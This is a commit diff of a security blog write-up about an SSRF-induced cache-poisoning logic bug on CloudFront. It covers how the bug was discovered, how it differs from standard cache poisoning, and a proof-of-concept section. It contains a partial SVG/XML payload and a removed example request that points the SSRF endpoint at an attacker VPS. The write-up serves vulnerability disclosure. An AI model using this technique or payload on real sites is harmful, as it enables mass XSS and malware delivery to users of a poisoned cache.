

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md, 3 parts joined by grey strips. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md
@@ -18,10 +18,19 @@ date: 2025-05-04 10:15:00
 
 ---
 
-## 2. Comparison with Standard Cache Poisoning
+## 2. How Was Cache Poisoning Discovered?
 
-| Standard Cache Poisoning            | SSRF‑Logic Bug Variant           |
-|-------------------------------------|----------------------------------|
-| Client sends payload directly       | Payload via SSRF intermediary    |
-| CDN caches server's direct response | CDN caches SSRF endpoint's response |
-| Controlled via headers (Host/Vary)  | Bug in the flow “Fetch → Cache → Serve” |
+During the POC of `SSRF`, a collaborator discovered that it forced the use of the following `Response Header`: `image/svg+xml`. Previously, when sending the `Request` for it to `Fetch` to the Web Attacker, I set it to `text/html`, so it always returned a 400. Therefore, he tried various `Response Header` values, and after success, when using `image/svg+xml`, it returned status 200.
+
+- Here, using `text/html` returns status 400
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)
+
+- And here, using `image/svg+xml`
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)
+
+Pay attention to the `Content-Type` in the second line of the `Response Header`—it accepts `image/svg+xml`. If you look closely, you can see in the fourth image, at the end of the `Response Header`, that it has saved the `Cache` to `CloudFront` with the `Response Header` `X-Cache: Hit from cloudfront` and the most important part is still `Age: 5`. This means it really was saved to the cache. And another important point is that this is truly a `variant` I encountered for the first time, because normally `Cache Poisoning` will not save to the cache through a `Fetch` to the `Server Attacker`.
+
+Note: I used https://requestrepo.com/#/requests to modify the `Response Header`
+
@@ -28,11 +38,15 @@ date: 2025-05-04 10:15:00
 
 ---
 
-## 3. Proof of Concept
+## 3. How Can I Properly Prove to the Vendor that This Is Genuine Cache Poisoning
 
-### 3.1 SVG/XML Payload (`poc.xml`)
+Of course, I have to show them how I attack a user via `Cache Poisoning`!
 
+I have the following `Payload`:
+
+`Poc.xml`
 ```xml
+- Payload xml
 <?xml version="1.0" encoding="UTF-8" standalone="no"?>
 <svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <foreignObject width="100%" height="100%">
@@ -71,26 +115,30 @@ if __name__ == '__main__':
 
-- Request to the SSRF endpoint:
-  ```http
-  GET /media?u=http://VPS:5505/poc.xml HTTP/2
-  Host: vuln.example.com
-  ```
-- Response headers include:
-  ```
-  X-Cache: Hit from cloudfront
-  Age: 5
-  ```
-  → This proves the payload was cached.
+## 5. Diagram and Detailed Explanation
 
-![CloudFront Hit](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)
+### + Differentiation from “Standard” Cache Poisoning
+
+- **Standard Cache Poisoning**
+  1. Attacker sends a request with a payload directly from the client.
+  2. Server or CDN embeds the payload in the response.
+  3. CDN caches the response and returns it to subsequent clients.
+  4. Main work: manipulate headers (`Host`, `Vary`, `Cache-Control`…) to control different cache keys.
+
+- **This Logic Bug Variant**
+  1. **Intermediate is SSRF/Fetch**
+     - Payload (SVG/XML) is fetched from the **server attacker**, not from the victim's browser.
+  2. **Main server** accidentally allows the `Fetch` to return the response with the header `Content-Type: image/svg+xml`, so **CloudFront automatically caches**.
+  3. **Repeated logic**: after caching, even if the victim makes multiple requests, the request is no longer forwarded to SSRF; it still returns the old cache—embedding the attacker's payload in the response.
 
 ---
 
-## 4. Impact
+### + Why Call It a “Logic Bug” Instead?
 
-- The attacker’s payload is “frozen” in the CDN, **all users** receive the malicious content without needing to trigger SSRF again.
-- Enables **mass attacks**: redirect victims, XSS, malicious file downloads…
+1. **Flow design flaw** rather than just misconfiguration of the cache.
+2. **Server attacker** is allowed to fetch any URL and return it directly to the CDN.
+3. The **Fetch → Cache → Serve** flow lacks controls (domain whitelist, response header validation…), allowing SSRF to escalate into cache poisoning.
+4. More severe consequences: not only incorrect caching, but also **mass-targeted attacks** via SVG/redirect payloads, XSS, malicious file downloads.
 
 ---
 
-## 5. Mitigation
+### + Flow diagram
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug-translated.md (+45 -17 lines).
